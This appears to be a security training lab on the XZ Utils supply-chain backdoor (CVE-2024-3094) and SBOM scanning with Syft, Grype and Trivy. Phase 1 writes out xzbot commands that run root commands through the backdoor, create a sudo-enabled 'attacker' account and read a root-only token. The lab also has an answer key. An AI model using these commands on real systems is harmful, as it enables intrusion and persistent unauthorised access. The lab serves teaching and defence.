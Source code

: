 # XZ Utils - A Case Study on Supply Chain Trust

This lab draws on the XZ Utils supply chain compromise referenced in this <a href="https://www.cisa.gov/news-events/alerts/2024/03/29/reported-supply-chain-compromise-affecting-xz-utils-data-compression-library-cve-2024-3094" target="_blank">CISA alert</a> from April of 2024. The XZ Utils case study represents an incident where a supply chain trust issue led to the inclusion of a backdoor vulnerability in the XZ Utils open source software package. What's most interesting is how the vulnerability was introduced and how it was discovered (almost completely by accident). Had the vulnerability not been discovered, any system that patched its OpenSSH service with the vulnerable version of XZ Utils could have been compromised. The lab will cover the backstory to this incident and walk you through an example vulnerability test and exploitation of the backdoor.

One of the ways personnel can review software packages and libraries for vulnerabilities before installation is through the use of Software Bills of Materials (SBOMs). Additional guidance on the use and generation of SBOMs can be viewed at <a href="https://www.cisa.gov/sbom" target="_blank">CISA's SBOM information page<a>.

Further information and recommendations on using secure software can be found in the <a href="https://www.cisa.gov/sites/default/files/2023-01/ESF_SECURING_THE_SOFTWARE_SUPPLY_CHAIN_CUSTOMER.PDF" target="_blank">Securing the Software Supply Chain Guide</a>

 - This lab is expected to take 30 minutes

*Please consider filling out the lab feedback survey at the bottom of your screen. The survey is available to you at any time while conducting the lab.*

**Caution!** You must complete _all_ phases of the lab to receive your completion certificate.

## Learning Objectives

 - Understand the XZ Utils backdoor vulnerability
 - Perform exploitation of the XZ Utils backdoor vulnerability
 - Understand Software Bill of Materials
 - Analyze SBOM details for vulnerability information

## Learner Expectations

 - Learners should be comfortable with command-line operations and Secure Shell connections

## FOCAL and NICE Framework Mappings

This lab maps with <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a> area 2 (Vulnerability Management) by analyzing and removing vulnerabilities and area 4 (Cyber Supply Chain Risk Management) by validating open source software before use.

**NICE Work Role**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">Exploitation Analysis, Software Security Assessment, Vulnerability Analysis</a>

**NICE Tasks**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1118</a>: Identify vulnerabilities
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1359</a>: Perform penetration testing
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1624</a>: Conduct vulnerability analysis of software patches and updates
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1690</a>: Identify exploitable technical or operational vulnerabilities


<!-- cut -->

# Scenario

The lab begins by walking through the timeline and backstory of the XZ Utils case study. Then you will perform hands-on penetration testing and exploitation of the vulnerability in a sandbox environment.

The lab environment consists of three systems:
 - A Kali Linux system that will serve as the "attacker"
 - An unaffected or safe system
 - A vulnerable system that includes the XZ Utils vulnerability
 
You will test each system to identify which is vulnerable based on interactions with the OpenSSH service and then demonstrate an exploit of the vulnerability. The lab will also review the concept of Software Bill of Materials (SBOM). Then the lab will demonstrate how tools like Grype and Trivy can identify vulnerable libraries before using them in software.

![network-diagram.png](./img/network-diagram.png)

## System Tools and Credentials

| system | OS type/link |  username | password |
|--------|---------|-----------|----------|
| Unaffected System | Ubuntu |user | tartans|
| Vulnerable System | Ubuntu |user | tartans|
| Kali | Kali Linux | user | tartans |

<!-- cut -->

## XZ Utils - Case Study Details 

The following section will outline, in detail, the events that led to the inclusion and discovery of the XZ Utils vulnerability. If you are already familiar with the story, you may skip ahead to Phase 1 of the lab. This initial section exploring the XZ Utils backdoor vulnerability is a 5-minute read.

<details> 
<summary> 
<h3>XZ Utils Vulnerability Backstory</h3> 
</summary> 
<p> 

#### What is XZ Utils? 

From XZ Util's own project page, "XZ Utils provide a general-purpose data-compression library plus command-line tools" `[1]`. Compared to other compression libraries and tools, such as gzip, XZ Utils can provide up to 30% more compression, albeit at the mild expense of longer compression times `[1,2]`. 

XZ Utils and the former LZMA2 Utils libraries are often part of other services that require data compression. One of which is the OpenSSH service that provides remote command-line access to systems and is often used by administrators. Estimates are that up to 70% of SSH servers are running some form or version of OpenSSH `[3]`. Keep this statistic in mind as we review the case. 

#### An Exercise of Social Engineering and Extreme Patience 

One of the most remarkable aspects of this case is the way the actor was able to gain the XZ Utils project maintainer's trust. Here is a rough timeline of the over 2 years of events that took place leading up to the inclusion of the vulnerability`[3]`: 

 - **October, 2021 - February, 2022**: User Jia Tin sends patches to the current XZ Utils maintainer, Lasse Colin, who integrates Tin's patches into a commit in February, 2022. 
 - **April, 2022 - June, 2022**: Several sockpuppet accounts (accounts that had no previous history or Internet presence up to this point and may have been operated by Tin) begin messaging Colin complaining of slow update times and pressuring him to appoint a second maintainer; a role that Tin has poised themselves to take with their previous patch submissions. 
 - **July, 2022 - December, 2022**: Lasse makes Tin an organization member of the XZ Utils GitHub project, adding him to email lists, and granting more access than Tin had previously. 
 - **January, 2023 - January, 2024**: Jia Tin takes over more and more responsibility for the project's maintenance, becomes a full-fledged maintainer and makes a few innocuous changes to the code that will serve the attack to come. 
 - **February, 2024**: Tin merges hidden backdoor binary code into the test input files included in the XZ Utils v5.6.0 unstable release. By the end of the month, errors are reported, and this likely led Jia Tin to accelerate the timeline of their plans. Some of the suggested "fixes" to the errors would prevent the backdoor in the future by unlinking the liblzma library from the libsystemd daemon - one that is necessary for the backdoor to work. 
 - **March, 2024**: Jia Tin releases XZ Utils v5.6.1, reporting to have fixed the previous errors, but this is a deception. The update includes a new backdoor in the test files that is less noisy to avoid detection. Tin hopes that the proposed solution of unlinking the libzma libraries will no longer be seen as necessary. 
 - **March 28, 2024**: Andres Freund discovers the bug and reports his findings to Debian who proactively rolls back XZ Utils v5.6.1 to v5.4.5. Meanwhile, other Linux distributions, such as Arch Linux and RedHat, announce the backdoor and advise users to downgrade the XZ Utils package if they have one of the vulnerable versions (5.6.0 or 5.6.1). 

#### Clever Concealment 

Part of the reason that the backdoor went relatively unnoticed to others was because the backdoor was added within the test files included with the 5.6.0 and 5.6.1 releases. Tin's own comments state, “This directory contains bunch of files to test handling of .xz, .lzma (LZMA_Alone), and .lz (lzip) files in decoder implementations. Many of the files have been created by hand with a hex editor, thus there is no better ‘source code’ than the files themselves,” `[3]`. The hope was that these test files would not be scrutinized to the same degree as the actual source code files. In addition, the malicious test files were only included in the tarball download files, and not directly on the GitHub project files list, further obfuscating their existence. Upon decompression of the package during the build process, the backdoor was added to the XZ Utils and liblmza libraries. 

An infographic created by Thomas Roccia is included below: 

![xz-infographic.jpg](./img/xz-infographic.jpg) 

*https://x.com/fr0gger_/status/1774342248437813525/photo/1* 

#### Discovery 

The backdoor's discovery by Andres Freund was unintentional in nature. Andres, a Postgres developer for Microsoft, discovered that creation of SSH logins were generating several Valgrind errors and that connections took slightly longer than usual using more CPU than normal. Valgrind is a tool used to detect memory management bugs in Linux programs, and Andres was so used to his systems that he noticed the fractionally longer login times for his SSH logins to connect. The Valgrind output seemed to point to liblzma and to xz utils in large. He then discovered the obfuscated code that is run by the liblzma and XZ Utils process during his SSH login session `[4]`. 

Additionally, in the case where the OpenSSH service is run by the systemd daemon at boot, the OpenSSH service is run in the context of the root user, which in Linux, is tantamount to the highest privileged user on the system. Anyone who would exploit this backdoor would then also be granted root-level access to the underlying system. 

After being reported the vulnerability was immediately given a severity score of 10, the highest a vulnerability can have, and the designation of <a href="https://nvd.nist.gov/vuln/detail/cve-2024-3094" target="_blank">CVE-2024-3094</a>. 

#### Lessons Learned 

Luckily, there are a handful of mitigating factors that prevented this backdoor vulnerability from becoming a larger issue. 

 - 1: The backdoor was caught relatively early, and many had likely not updated or upgraded their current version of XZ Utils to one of the compromised versions. Unless operators were hyper-diligent about updating their packages, the pool of vulnerable systems would have been small at first. However, remember that up to 70% of systems with an SSH login service use a version of OpenSSH, so the potential for harm was great on a long enough timescale. 
 - 2: The backdoor relied on a specific public/private key pair to connect. This means that only the holder of the required private key would have been able to leverage the backdoor. At the time of discovery, the likelihood that the actor, Jai Ti, was going to personally target systems of interest would have been very low. However, it would have been possible for this actor to sell or offer this private key to those who would see the backdoor used for malicious intent. 
 - 3: Due to the possibly rushed execution of the attack to avoid detection, the implementation of the backdoor tended to be buggy and may not have worked on every system that leveraged XZ Utils and the liblzma libraries. Andres alludes to crashes caused by the backdoor in version 5.6.0, meaning that those who did not update to v5.6.1 had a lower chance of being exploited in the wild. 

So, what did we learn from this incident? Should we trust open source software? Overall, we likely can, as the entire purpose of open source is for the community to review and vet software to find and correct errors, bugs, and vulnerabilities. While this backdoor vulnerability had the potential to cause massive harm, it was caught relatively quickly thanks to the diligence of the larger IT and cybersecurity communities. However, this example demonstrates how the implied trust behind well-known and well-used open source software could be used for malicious purposes. 

</p> 
</details> 

## Phase 1: Test and Exploit the XZ Utils Vulnerability 

In this phase of the lab, you will test for the presence of the vulnerability, just as the discoverer did, and then perform the exploitation of the XZ Utils vulnerability. 

<details>
<summary>
<h3>Test for the Presence of the XZ Utils Vulnerability</h3>
</summary>
<p>

First, we'll walk through how to know if a system could be affected by the backdoor. We are looking for four key items:

 - The system is using `OpenSSH` for its SSH service
 - OpenSSH includes the `liblzma` library as a dependency
 - OpenSSH is `executed by systemd` at startup
 - The version of XZ Utils is either `5.6.0` or `5.6.1`

1. Open the `Unaffected-System` console and login with the credentials `user|tartans`.

2. (**Unaffected-System**) To check whether the system is running SSH, and more specifically OpenSSH, run the following command:

```
sshd -V
```

![s08-image1.png](./img/s08-image1.png)

We can see from the output that our system is indeed using OpenSSH.

3. (**Unaffected-System**) To check whether OpenSSH includes liblzma as a library dependency, run the following command:

```
ldd $(which sshd)
```

![s08-image2.png](./img/s08-image2.png)

The output lists all the shared library dependencies and objects for the service in question. The output also clearly shows that OpenSSH is dependent on the liblzma library.

4. (**Unaffected-System**) To check whether OpenSSH is executed by systemd at startup, run the following commands in succession:

```
ps -eo pid,ppid,cmd | grep [s]shd
ps -eo pid,ppid,cmd | head
ls -l /sbin/init
```

![s08-image3.png](./img/s08-image3.png)

All of the relevant output will fit onto the screen. The first output prints the process id, parent process id, and command name for any running process that includes the name "sshd". We can see from this output that the parent process id for the sshd service is `1`. The second output simply lists the same information for the first 10 entries of the process list, allowing us to see that process 1 corresponds to `/sbin/init`. The third and final output highlights that /sbin/init is symlinked (another way of saying shortcut) to `/lib/systemd/systemd`. Since systemd is responsible for managing services at startup, this tells us that the sshd service is started at boot by the systemd account.

Therefore, we have proven that the first three criteria pass:

 - The system is using `OpenSSH` for its SSH service &#x2705;
 - OpenSSH includes the `liblzma` library as a dependency &#x2705;
 - OpenSSH is `executed by systemd` at startup &#x2705;

5. (**Unaffected-System**) Lastly, to tell which version of XZ Utils is currently installed, run the following command:

```
xz --version
```

![s08-image4.png](./img/s08-image4.png)

We can see from the output that this system is not using one of the vulnerable xz-util version. Therefore, the final criteria for being a candidate for the backdoor is not true.

 - The version of XZ Utils is either `5.6.0` or `5.6.1` &#x274E;

6. Open the `Vulnerable-System` console and login with the credentials `user|tartans`.

7. (**Vulnerable-System**) Repeat steps 2-5 above for this system. Everything should be more less the same until you check the version of xz.

![s08-image5.png](./img/s08-image5.png)

This time we see that the system is using version 5.6.1, which is one of the vulnerable versions of XZ Utils.

8. (**Vulnerable-System**) Additionally, we can verify that the liblzma shared object that OpenSSH is using is the vulnerable version by running the following command:

```
ls -l /usr/local/lib/liblzma.so.5
```

When you ran the `ldd $(which sshd)` command you would have noticed that OpenSSH is still pointing to the liblzma.so.5 shared object, but the above output shows that this is symlinked to the vulnerable shared object of liblzma (liblzma.so.5.6.1).

![s08-image7.png](./img/s08-image7.png)

In the next section, you will exploit the vulnerable system and test the effects.

</p>
</details>

<details>
<summary>
<h3>Exploit the XZ Utils Vulnerability</h3>
</summary>
<p>

In this section you will perform the exploitation of the XZ Utils backdoor using a proof-of-concept tool named <a href="https://github.com/amlweems/xzbot?tab=readme-ov-file#backdoor-demo" target="_blank">xzbot</a>, which was created by GitHub user `amlweems`.

1. Open the `Kali-XZ` console and login with the credentials `user|tartans`, if not already logged in.

2. (**Kali-XZ**) Open Firefox and browse to the hosted files site at `https://skills.hub/lab/files` (`https://10.5.5.5/lab/files`).

3. (**Kali-XZ, Firefox**) Download the `xzbot` standalone executable file to the default Downloads directory.

![s08-files.png](./img/s08-files.png)

The vulnerable server has been preconfigured with a private key that matches the public key used by the xzbot executable. Recall that in the published backdoor the private key of the attacker was unknown, so the keys in the lab were replaced using a pre-generated key pair that will allow us to perform the exploit.

4. (**Kali-XZ, Terminal**) Open a Terminal and change directories, set the executable flag for xzbot and then view the help options with the following commands:

```
cd /home/user/Downloads/
chmod +x xzbot
./xzbot -h
```

![s08-image8.png](./img/s08-image8.png)

Based on the help options, we need to supply the SSH server IP and port, a command, and a seed value. For the lab we can ignore the seed value option as the default seed value of 0 was already used to generate the new key pair. This leaves just the IP, port, and command to run.

5. (**Kali-XZ, Terminal**) Exploit the OpenSSH server with the following command, where the `id` command will output the context in which the command was executed to the file `/home/user/id` on the vulnerable system:

```
./xzbot -addr 10.5.5.250:22 -cmd "id > /home/user/id"
```

You should see the following output.

![s08-image9.png](./img/s08-image9.png)

Even though the output says the SSH handshake failed, we can verify that the command was run by looking on the vulnerable system.

6. (**Vulnerable-System**) Switch to the **Vulnerable-System** console and view the contents of the `id` file you just created with the following command:

```
cat /home/user/id
```

![s08-image10.png](./img/s08-image10.png)

The output shows that when we ran `id` through the xzbot backdoor connection, we were running as the root user. So, what could we do with this level of access as a malicious actor?

7. (**Kali-XZ, Terminal**) Return to the **Kali-XZ** console and run the following commands in succession:

```
./xzbot -addr 10.5.5.250:22 -cmd "useradd -m -s /bin/bash attacker"
./xzbot -addr 10.5.5.250:22 -cmd "echo 'attacker:tartans' | chpasswd"
./xzbot -addr 10.5.5.250:22 -cmd "gpasswd -a attacker sudo"
```

These commands will appear to run silently to you, but they will perform consequential tasks on the target system.

 - The first command creates a new user named `attacker`, creates a home directory for it, and then sets the user's default shell to bash
 - The second command sets the `attacker` password to `tartans`
 - The third command adds the `attacker` user to the sudoers group

8. (**Kali-XZ, Terminal**) Login to the vulnerable system using the account you just created and a password of "tartans" (enter "yes" when asked if you are sure you want to connect):

```
ssh attacker@10.5.5.250
```

9. (**Kali-XZ, Terminal, SSH Session to Vulnerable-System**) To validate that you are indeed a sudoer for the system, run the following command with the sudo password of `tartans` and the view the contents of the flag file in the root directory:

```
sudo cat /root/token
```

**Knowledge Check Question 1:** *What is the token string found in the root directory once the vulnerable system has been successfully exploited?*

Note that this directory was protected against the standard 'user' account initially so that you could not view it until you had a sudoer account at your disposal.

10. (**Kali-XZ, Terminal, SSH Session to Vulnerable-System**) Once you have the token file contents you may end the SSH session to the Vulnerable-System with the following command:

```
exit
```


You have just circumvented the standard protections for this system by creating a new privileged user account by using the backdoor in liblzma. Now that an account is created, an attacker could go about making further changes to lock out other users, erase logs to cover their tracks, and set up persistence or pivot to other systems.

#### Grading Check

(**Kali-XZ, Firefox**) To check your work, browse to the grading page at `https://skills.hub/lab/tasks` or `(https://10.5.5.5/lab/tasks)` from the Kali system. Click the `Submit/Re-Grade Tasks` button to trigger the grading checks. Refresh the results after a few moments to see your results.

![s08-image13.png](./img/s08-image13.png)

Grading Check 1: Successfully added the attacker user to the vulnerable system and added the attacker to the sudoers group.
 - New user `attacker` was added to the Vulnerable-System
 - The `attacker` user is part of the sudoers group

`Copy the token or flag strings to the corresponding question submission field to receive credit.`

### Optional Validation

1. (**Kali-XZ, Terminal**) In order to view SSH connections times and replicate what the researcher observed, you can run the following command against the Vulnerable-System:

```
(time sshpass -p 'tartans' ssh -o StrictHostKeyChecking=no user@10.5.5.250 "pidstat -C sshd 1 3") 2>&1 | grep real
```

2. (**Unaffected-System**) For the Unaffected-System you will first have to run `ip addr` locally to determine the system's IP address.

![s08-image11.png](./img/s08-image11.png)

3. (**Kali-XZ, Terminal**) Then use this IP address in the same command as above, replacing the `.250` with the correct final octet of the Unaffected-System's Ip address.

You should notice, even on repeated tests, that the Vulnerable-System always connects more slowly than the Unaffected-System.

![s08-image12.png](./img/s08-image12.png)

It's quite impressive that the researcher was able to notice this small difference simply by "feel", which caused him to dig deeper and led to the discovery of the backdoor.

</p>
</details>

## Phase 2: Reviewing SBOMs for Vulnerable Packages

<details>
<summary>
<h3>Investigate the XZ Utils Package</h3>
</summary>
<p>

For this phase of the lab you will be generating and reviewing a few sample SBOMs, including one taken from the vulnerable systems.

| &#128270; Software Bill of Materials (SBOM) |
|---|
|_As stated previously, SBOMs are Software Bills of Materials. SBOMs list the various libraries or even applications for a given project, package, or file. SBOMS can even be created from the contents of a system's filesystem. SBOMs are useful for creating an inventory of the various software libraries that are included in a package or project, or the various libraries and programs in a certain directory, compressed package, or other file. SBOM data can also be used to scan for known vulnerabilities attached to the specific versions of libraries, applications, or programs within the SBOM inventory list. These results can be valuable when evaluating open source software and allows personnel to correct vulnerable items before the software is used._ |

| &#128736; Syft |
|---|
|_Syft is an open source command-line interface tool used for creating SBOMs. Syft was used in this lab due to its simplicity. Syft gathers information about a target and performs additional metadata gathering when run online._ |

| &#128736; Grype |
|---|
|_Grype is an open source command-line interface tool used to scan SBOM's for known vulnerabilities. Grype leverages a vulnerability database but can be run offline as long as the database was stored locally._ |

1. (**Kali-XZ**) Open Firefox (if not already open) and browse to the hosted files site at `https://skills.hub/lab/files` (`https://10.5.5.5/lab/files`).

2. (**Kali-XZ, Firefox** Download the following files:
 - juiceshop-sbom.json: A CylconeDX formatted SBOM created from the OWASP Juice Shop site (retrieved from <a href="https://github.com/CycloneDX" target="_blank">CylconeDX</a>)
 - xz.json: An SPDX formatted SBOM based on the Vulnerable-System's xz-5.6.1 package
 - xz-5.6.1.tar.gz: The original XZ-Utils tarball including the vulnerable version of XZ Utils

![s08-files.png](./img/s08-files.png)

3. (**Kali-XZ, Terminal**) Change working directories to the Downloads directory with the following commands:

```
cd /home/user/Downloads
```

4. (**Kali-XZ, Terminal**) First, you will create an SBOM of the XZ Utils tarball using `Syft` with the following command (you can ignore any warnings about not being able to fetch the latest version, as the tool is running offline):

```
syft -o spdx xz-5.6.1.tar.gz > my-xz.json
```

![s08-image16.png](./img/s08-image16.png)

Syft can view the contents of the tarball file and gather the list of libraries and packages within. The `-o` option allows you to specify the output format; SPDX in this case.

5. (**Kali-XZ, Terminal**) You can view the contents of the SBOM with `cat my-xz.json` or by viewing it directly within the OS GUI with a text editor, such as VS Code or VIM.

An important item of note is that when Syft runs in an offline fashion it might not be able to grab all the associated metadata with certain library and package files.

6. (**Kali-XZ, Terminal**) Compare the SBOM that you created with the SBOM that was pre-generated for you with the following command:

```
diff -y my-xz.json xz.json
```

![s08-image17.png](./img/s08-image17.png)

As you scroll through the differences, you'll see that there are some sections and additional information available in the xz.json SBOM that was taken while Syft was online.

Let's check the pre-generated SBOM for any vulnerabilities flagged in the xz-5.6.1.tar.gz package using Grype.

7. (**Kali-XZ, Terminal**) Review the SBOM for any vulnerabilities associated with known CVE's with the following command (Grype will also complain about not being able to check for updates due to being run offline, but this is normal):

```
grype xz.json
```

![s08-image18.png](./img/s08-image18.png)

You'll see that Grype flags the vulnerable version of XZ Utils right away, as well as lists the exact CVE and the version in which the CVE was fixed or resolved.

**Knowledge Check Question 2:** *What is the CVE associated with the "Unknown" severity vulnerability in the Grype output?*

Using tools like Grype to review packages before installation is critical to vulnerability management, but it also allows you to resolve the vulnerable package with a known safe version. Review of SBOM's and packages is paramount to maintaining security and reducing risk when using open source packages.

</p>
</details>

<details>
<summary>
<h3>Reviewing More Complex SBOMs with Trivy</h3>
</summary>
<p>

In this final section of the lab, you will review a more involved SBOM based on the OWASP vulnerable Juice Shop site, which is used for practicing penetration testing techniques. The site is intentionally rife with vulnerabilities, so Trivy should find many potential issues with the package.

| &#128736; Trivy |
|---|
|_Trivy is another open source command-line interface tool for performing security scanning of SBOMs. Trivy produces vulnerability information, including CVE numbers, in a table format that is easy to read and can even filter the results by severity._|

0. (**Kali-XZ, Terminal**) Because of the way Trivy runs in this offline sandboxed environment, it cannot perform automatic database updates. The trivy.db file includes metadata that compares the current date to the date on which the .db file was pulled. 

In order to trick Trivy into not running the database checks, the system clock was modified at the start of the lab to set the date back to when the database was last updated (May 6th, 2025). Check the system clock and make sure this is still the case.

If you need to set the date back yourself, you can enter the following command:

```
sudo date -s "Tue May 6 02:30:00 PM EDT 2025"
```

Since this is the last step we are performing, the date change should not affect the local system.

**Note: If at any time Trivy behaves as if it cannot read from its local database again, you can replace the cached files with the following commands:**

```
cp /home/user/metadata.json /home/user/.cache/trivy/db/
cp /home/user/trivy.db /home/user/.cache/trivy/db/
```

1. (**Kali-XZ, Terminal**) Review the Trivy output for the Juice Shop SBOM with the following command:

```
trivy sbom juiceshop-sbom.json
```

The `sbom` flag tells Trivy that we are reviewing an SBOM file, which is the `juiceshop-sbom.json` file.

The output will display a table of the libraries that have known CVE's attached and whether or not the vulnerability is still active or it has been fixed.

![s08-image15.png](./img/s08-image15.png)

2. Use the table's information and Internet research to answer the following questions.

**Knowledge Check Question 3:** *How many unique libraries (not unique CVE's) are identified as having at least one CVE with a `HIGH` severity level?*

Hint: You can add the `--severity HIGH` option to the previous Trivy command to help with Knowledge Check Question 3.

**Knowledge Check Question 4:** *How many 'CRITICAL' severity CVE's are still affected in the Juice Shop package based on the SBOM and Trivy output?*

Hint: You can add the `--severity CRITICAL` option to the previous Trivy command to help with Knowledge Check Question 4.

You have now used multiple tools to gather vulnerability information from SBOMs made from various packages and libraries. There is no single tool to rule them all when it comes to SBOM review. While Grype flagged the XZ Utils vulnerability, Trivy does not in this instance. It is important to leverage multiple tools, whenever possible, to ensure you have the full picture when reviewing SBOM details.

</p>
</details>

<details>
<summary>
<h3>Lab Wrap-up</h3>
</summary>
<p>

### Conclusion

By completing this lab, you were able to review and demonstrate an exploit against the XZ Utils backdoor vulnerability. In addition, you learned about SBOMs and how they can be used to review open source software for potential vulnerabilities before use.

To recap:
 - You reviewed and compared a pair of systems to determine which was vulnerable to the XZ Utils backdoor vulnerability
 - You exploited the XZ Utils backdoor vulnerability and performed follow-on actions to gain persistent sudoer access as a new user
 - You created an SBOM from the vulnerable XZ Utils source code package
 - You analyzed the output of security and vulnerability scanning tools against SBOMs to determine specific vulnerability information

Skills exercised:
 - S0504: Skill in identifying vulnerabilities
 - S0543: Skill in scanning for vulnerabilities
 - S0544: Skill in recognizing vulnerabilities

### Answer Key

**Knowledge Check Question 1**: What is the token string found in the root directory once the vulnerable system has been successfully exploited?
 - *This answer is randomized for each lab instance*
 
**Knowledge Check Question 2**: What is the CVE associated with the "Unknown" severity vulnerability in the Grype output?
 - *CVE-2024-47611*

![kc2.png](./img/kc2.png)  
  
**Knowledge Check Question 3**: How many unique _libraries_ (not unique CVE's) are identified as having at least one CVE with a `HIGH` severity level based on the Juice Shop SBOM?
 - *16*

![kc3.png](./img/kc3.png)
  
**Knowledge Check Question 4**: How many 'CRITICAL' severity _CVE's/vulnerabilities_ (not unique libraries) are ALSO still marked as _affected_ based on the Juice Shop SBOM?
 - *5*

![kc4.png](./img/kc4.png)
  
### References
 - `[1]`<a href="https://github.com/tukaani-project/xz" target="_blank">XZ Utils GitHub Project page</a>
 - `[2]` <a href="https://en.wikipedia.org/wiki/XZ_Utils" target="_blank">Wikipedia</a>
 - `[3]` <a href="https://research.swtch.com/xz-timeline" target="_blank">Timeline of the xz open source attack</a>
 - `[4]` <a href="https://www.openwall.com/lists/oss-security/2024/03/29/4" target="_blank">Andres Freund's Report to Openwall</a>
 - <a href="https://www.cisa.gov/news-events/alerts/2024/03/29/reported-supply-chain-compromise-affecting-XZ Utils-data-compression-library-cve-2024-3094" target="_blank">CISA Alert on XZ Utils</a>
 - <a href="https://www.cisa.gov/sbom" target="_blank">CISA SBOM information page<a>
 - <a href="https://www.cisa.gov/sites/default/files/2023-01/ESF_SECURING_THE_SOFTWARE_SUPPLY_CHAIN_CUSTOMER.PDF" target="_blank">CISA Securing the Software Supply Chain Guide</a>
 - <a href="https://github.com/anchore/grype" target="_blank">Grype</a>
 - <a href="https://github.com/anchore/syft" target="_blank">Syft</a>
 - <a href="https://trivy.dev/latest/" target="_blank">Trivy</a>
 - <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a>
 - <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">NICE Framework</a>

</p>
</details>

